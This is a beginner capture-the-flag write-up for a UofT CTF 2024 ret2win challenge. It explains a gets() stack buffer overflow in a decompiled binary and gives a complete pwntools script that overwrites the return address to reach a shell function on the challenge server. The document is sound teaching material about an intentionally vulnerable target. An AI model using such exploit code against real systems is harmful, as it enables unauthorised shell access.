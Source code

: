```yaml
---
layout: writeup
category: UofT-CTF-2024
chall_description:
points: 100
solves: 316
tags: pwn pwn/ret2win pwn/buffer-overflow
date: 2024-1-15
comments: false
---
```


This challenge is simple.  

It just gets input, stores it to a buffer.  

It calls gets to read input, stores the read bytes to a buffer, then exits.  

What is gets, you ask? Well, it's time you read the manual, no?  

`man 3 gets`  

Cryptic message from author: There are times when you tell them something, but they don't reply. In those cases, you must try again. Don't just shoot one shot; sometimes, they're just not ready yet.  

Author: drec  
`nc 34.123.15.202 5000`  
[basic-overflow](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UofT-CTF-2024/basic-overflow)  

---

Since this challenge is so simple, this writeup is intended primarily for complete beginners to pwn!  

We're given an ELF binary file. It is essentially a Linux executable, similar to .exe for Windows. We can decompile this with Ghidra, a powerful reverse-engineering tool. Download it if you don't have it!  

In Ghidra, on the left sidebar, we can open the Functions folder to see what sort of functions this program contains. Most of it is irrelevant, as some functions used for program functionality are also listed. However, there are two unusual functions that seem to be user-created. `main` and `shell`.  

Clicking on each allows us to see their decompilation. Here's `main`:  

```c
undefined8 main(void)

{
  char local_48 [64];
  
  gets(local_48);
  return 0;
}
```

Let's first examine main. The main function simply allocates 64 bytes for a character array, i.e. a string. It then calls gets() to receive user input for the variable. For people experienced with pwn, this is immediately a major red flag. gets() is vulnerable to buffer overflow. That is, it can receive more input than it should. So, even though only 64 bytes are allocated for the character array, the program could read in more than 64 bytes into the variable!  

Since the variable is located on the stack, which is essentially an area of the program's memory where variables and things like that are stored, it will *overflow* onto the stack, overwriting the memory of the program. Crucially, the return address is stored on the stack.  

The return address is essentially the location in the program that main() will return to after finishing and hitting the `return` statement. This is important, because if we can overwrite this return address, we can control what function main() executes next!  

Now let's take a look at shell.

```c
void shell(void)

{
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}
```

All this does is pop a shell.  

So, this is a standard ret2win challenge where we must override the return address with the address of the win function to get a shell. We can easily do this with pwntools:  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./basic-overflow")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./basic-overflow')
# gdb.attach(p)

p = remote('34.123.15.202', 5000)


# p.sendline(
#     cyclic(1024)
# )

offset = cyclic_find('saaa')
shell = pack.p64(elf.symbols['shell'])
payload = offset*b'A' + shell
p.sendline(payload)

p.interactive()
```

Ignore the top half -- it's all just setup.  

In the bottom half, there is first a commented out line of a 'cyclic(1024)'. All this does is send a string to the program that enables us to find the offset of the return address. We know what the return address becomes (after it is opened in gdb with `gdb.attach(p)`) by entering 'continue' and looking at the RSP register, i.e. the stack pointer, which shows that it is the string `saaa` in the cyclic.  

Thus, our offset can be found using pwntool's `cyclic_find()` function. The address of the shell function can be found in the ELF's symbols, and our payload can be contructed as `offset*b'A' + shell`. Note that the address of the shell function must be 'packed' into little endian and x64 format. I would recommend Googling those two if you are unaware of what they are.  

Once we have our payload, we can send it to the remote service, pop a shell, and `ls` --> `cat flag` gives us our flag!  

    uoftctf{reading_manuals_is_very_fun}